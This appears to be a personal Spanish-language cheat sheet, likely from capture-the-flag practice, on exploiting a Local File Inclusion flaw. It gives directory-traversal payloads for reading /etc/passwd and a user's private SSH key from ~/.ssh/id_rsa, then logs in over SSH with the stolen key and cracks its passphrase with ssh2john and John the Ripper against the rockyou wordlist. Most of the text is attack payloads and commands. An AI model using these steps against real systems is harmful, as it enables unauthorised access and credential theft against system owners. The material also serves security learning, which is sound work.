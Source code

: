 Cuando en una url se llama a un parametro, es facil que encontremos un LFI
../../../../../../../../../../
intentaremos sacar el passwd (donde se encuentran los usuarios registrados del sistema)
la ruta de passwd /etc/passwd

por tanto pondremos

../../../../../../../../../../etc/passwd en la url como parámetro para ver si podemos acceder a passwd



si encontramos algo en el passwd que contenga /home/{x} ya tenemos un nombre de usuario

una vez que vemos algún usuario podemos buscar el id_rsa
la ruta será 

../../../../../../../../../../home/{usuario}/.ssh/id_rsa


CTRL + u para verlo bien

creamos un fichero con el nombre que queramos y lo pegamos
luego le damos permiso  600 al fichero
chmod 600 ficheroconId_rsa


luego hacemos ssh usando el id_rsa

ssh -i {fichero conRSA y permisos 600} {nombreDeUsuario}@IP



En ocasiones hay que crackear el id_rsa porque para poder conectar por ssh nos pide el salvaconducto
para eso usamos jhontheripper

ssh2jhon {fichero conRSA y permiosos 600} > hash

jhon --wordlist=/usr/share/wordlists/rockyou.txt hash



